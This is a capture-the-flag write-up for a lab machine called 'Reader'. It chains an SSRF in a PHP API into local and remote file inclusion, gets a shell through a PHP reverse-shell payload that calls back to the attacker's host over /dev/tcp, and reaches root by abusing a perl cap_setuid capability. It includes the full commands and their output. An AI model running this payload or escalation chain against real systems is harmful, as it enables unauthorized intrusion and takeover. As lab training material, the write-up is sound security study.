





Please, ignore the machine ip changing during the writeup. I needed to restart the machine and the ip changed.

## Reader Machine Writeup


### Nmap Enumeration

First, we begin by running a comprehensive Nmap scan to identify open ports and services.

```bash
┌──(w44z㉿kali)-[~/Desktop/hackingclub/machines/reader]
└─$ nmap -p- -Pn -sC -sV --open -n -oG all-ports 172.16.8.236       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 18:23 -03
Nmap scan report for 172.16.8.236
Host is up (0.15s latency).
Not shown: 37472 closed tcp ports (conn-refused), 28061 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 54:7f:98:62:a0:6a:80:dd:d0:69:18:d8:ea:ee:ea:43 (ECDSA)
|_  256 d7:11:ca:f5:52:1f:90:ae:79:39:6c:93:a4:03:2d:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Emergency Maintenance
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.39 seconds
```

The Nmap scan reveals two open ports:

	•	Port 22 - SSH service running OpenSSH 8.9p1
	•	Port 80 - HTTP service running Apache 2.4.52 with an “Emergency Maintenance” page

HTTP Enumeration

Exploring the HTTP service on port 80, we observe an API endpoint (/api.php) that responds only to POST requests. This suggests potential for interaction and further exploitation.

Testing GET Request

Sending a GET request to /api.php:

```
GET /api.php HTTP/1.1
Host: 172.16.8.236
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://172.16.8.236/
Upgrade-Insecure-Requests: 1

```

Response:
```
HTTP/1.1 200 OK
Date: Mon, 04 Nov 2024 21:34:18 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 56
Connection: close
Content-Type: application/json

{"status":false,"msg":"Only POST requests are accepted"}
```

Testing POST Requests

Sending a POST request without parameters results in a message indicating a missing url parameter.

```
POST /api.php HTTP/1.1
Host: 172.16.8.236
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://172.16.8.236/
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

Response:

```
HTTP/1.1 200 OK
Date: Mon, 04 Nov 2024 21:34:42 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 46
Connection: close
Content-Type: application/json

{"status":false,"msg":"Missing url parameter"}
```

Testing with a url Parameter

Providing the url parameter as url=a:

```
POST /api.php HTTP/1.1
Host: 172.16.8.236
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://172.16.8.236/
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

url=a
```

Response:

```
HTTP/1.1 200 OK
Date: Mon, 04 Nov 2024 21:35:34 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 47
Connection: close
Content-Type: application/json

{"status":false,"msg":"Could not resolve host"}
```

Upon supplying a valid URL (url=http://127.0.0.1), we receive the following:

```
{"status":true,"output":"output-307788.txt"}
```

This confirms Server-Side Request Forgery (SSRF), as it allows interaction with internal resources on the server.

### Directory Enumeration with FFUF

Using FFUF for directory brute-forcing reveals an accessible logfiles directory:

```
┌──(w44z㉿kali)-[~/Desktop/hackingclub/machines/reader]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u http://172.16.8.236/FUZZ               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.8.236/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

logfiles                [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 144ms]
```





Since we have a SSRF, let's try a port scanning.

Using Burp Suite Intruder, we send requests with different ports to determine which services are reachable through the SSRF by inspecting responses with a status of `true`.



Accessing the output file from the screenshot, we have the following page content inside the txt file:



Acessing the read.php through the SSRF, we have the following error coming from the server.



Giving it a try for LFI, we can confirm that the file param is vulnerable to LFI through the SSRF.
Testing for RFI, we can confirm we also have a RFI in the same param.

### Achieving Remote Code Execution (RCE)

Lets create a file with a reverse shell payload, and open a web server to receive the request. 

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.17.34/4444 0>&1'"); ?>
```

Serving this file via a web server, we execute it remotely by including the file through the vulnerable parameter. Meanwhile, we set up a listener to catch the reverse shell.

```bash
nc -lvnp 4444
```


User flag can be found in /home/webmaster directory.

### Privilege Escalation to Root

Inspecting the system, we find that perl has the cap_setuid capability, allowing us to escalate privileges.

```bash
webmaster@ip-172-16-9-215:/home/webmaster$ getcap -r /usr/bin 2>/dev/null
getcap -r /usr/bin 2>/dev/null
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/perl5.34.0 cap_setuid=ep
/usr/bin/perl cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
```

Using Perl to set the UID to root and spawn a shell:

```bash
webmaster@ip-172-16-9-215:/home/webmaster$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
<OSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
id
uid=0(root) gid=1001(webmaster) groups=1001(webmaster)
```

We now have root privileges on the machine.

Root flag can be found in /root directory.